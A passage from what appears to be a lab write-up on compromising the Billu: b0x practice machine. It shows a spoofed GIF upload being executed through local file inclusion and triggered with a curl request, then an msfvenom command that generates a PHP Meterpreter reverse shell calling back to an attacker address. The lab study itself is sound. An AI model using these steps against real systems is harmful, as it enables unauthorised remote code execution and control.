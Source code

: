 After hitting the continue button to submit the form, the GIF file was successfully included and the echo statement executed and output "test" to the page; confirming that we can indeed upload arbitrary code via the spoofed GIF and run it using the LFI:

![GIF spoof test](/assets/images/how-i-hacked-billu-b0x/gif-test-success.png)

In addition to doing this manually using the FireFox inspector, it was also possible to invoke it using cURL, which is how I executed it going forward, using the following command:

```shell_session
curl --cookie "PHPSESSID=71fncsbnsag6pd9ombvi66fqp3" --data "load=uploaded_images%2Ftest.gif&continue=1" http://10.2.0.104/panel.php
```

## Getting a Meterpreter Session
With a confirmed way of executing arbitrary code, I used msfvenom to create a reverse TCP Meterpreter script:

```shell_session
root@kali:~# msfvenom -p php/meterpreter/reverse_tcp LHOST=10.2.0.3 -o shell.php
No platform was selected, choosing Msf::Module::Platform::PHP from the payload
No Arch selected, selecting Arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 944 bytes
Saved as: shell.php
```
